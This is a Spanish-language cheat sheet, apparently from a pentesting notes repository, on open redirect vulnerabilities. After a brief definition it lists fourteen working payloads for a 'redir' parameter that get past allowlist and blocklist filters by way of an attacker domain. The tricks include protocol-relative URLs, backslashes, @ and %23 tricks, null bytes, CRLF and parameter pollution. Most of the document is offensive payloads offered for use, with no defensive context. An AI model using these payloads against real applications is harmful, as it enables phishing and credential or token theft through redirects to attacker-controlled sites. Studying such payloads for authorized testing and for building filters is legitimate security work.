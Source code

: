 # Open Redirect

Las vulnerabilidades de redirección abierta surgen cuando una aplicación incorpora datos controlables por el usuario en el objetivo de una redirección de forma no segura. Un atacante puede construir una URL dentro de la aplicación que provoque una redirección a un dominio externo arbitrario

A veces se puede encontrar en las páginas de inicio de sesión/registro/cierre de sesión, como también comprobando el código fuente de javascript

# Explotando

1 - Prueba a cambiar el dominio

    /?redir=attacker.com
    
2 - Uso de un dominio o una palabra clave incluidos en la white list

    /?redir=target.com.attacker.com
    
3 - Usando // para bypass la palabra http de la black list

    /?redir=//attacker.com
    
4 - Usando https: para bypass // de la black list

    /?redir=https:atacker.com
    
5 - Using \\ para bypass // de la black list

    /?redir=\\attacker.com
    
6 - Using \/\/ para bypass // de la black list

    /?redir=\/\/attacker.com/
    /?redir=/\/attacker.com/
    
7 - Usando %E3%80%82 para bypass el . de la black list

    /?redir=attacker%E3%80%82com
    
8 - Usando un null byte %00 para bypass el filtro de la black list

    /?redir=//attacker%00.com
    
9 - Usando parameter pollution

    /?next=host.com&next=attacker.com
    
10 - Usando @ o %40 (el navegador redirigirá a cualquier cosa después del @)

    /?redir=host.com@attacker.com
    /?redir=host.com%40attacker.com
    
11 - Usando el carácter ? (el navegador lo traducirá a /?)

    /?redir=host.com?attacker.com
    
12 - Omita el filtro si solo verifica el nombre de dominio usando %23

    /?redir=host.com%23attacker.com

13 - Usando el símbolo ° para bypass

    /?redir=host.com/°attacker.com
    
14 - Omita el filtro si solo le permite controlar la ruta usando un null byte %0d o %0a

    /?redir=/%0d/attacker.com
    /?redir=/%0a/attacker.com
